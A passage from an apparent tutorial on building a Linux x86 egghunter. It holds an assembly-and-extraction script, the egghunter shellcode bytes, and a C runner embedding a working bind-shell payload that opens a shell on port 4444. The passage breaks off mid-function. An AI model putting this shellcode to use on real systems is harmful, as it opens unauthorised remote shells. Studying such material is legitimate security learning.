 ```bash

```

## Assembling and linking

Now, we have completed writing the egghunter.nasm file.

I will Assemble and link it with the following complie.sh bash script:

```c
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'

echo '[+] Printing the Shellcode:'

objdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

The shellcode output:

```c
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";
```

As we can see there are no NULL-BYTES within the shellcode generated.

I will insert the shellcode on the custom shellcode c program runner presented
which will get as input the egghunter shellcode, and the bind shell shellcode:

```c
#include <stdio.h>
#include <string.h>

unsigned char egghunter[] = \

"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";


unsigned char code[] = \

/* The Egg custom bytes: */
"\x50\x90\x50\x90\x50\x90\x50\x90"
/* The shellcode payload: */
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xf6\x56\x53\x6a\x02\x89\xe1\xcd\x80\x97\x31\xc0\xb0\x66\x56\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\x31\xdb\xb0\x66\xb3\x04\x56\x57\x89\xe1\xcd\x80\xb0\x66\xfe\xc3\x56\x56\x57\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

main()
{

	printf("Egghunter  Length:  %d\n", strlen(egghunter));
	printf("Shellcode Length:  %d\n", strlen(code));


	int (*ret)() = (int(*)())code;
```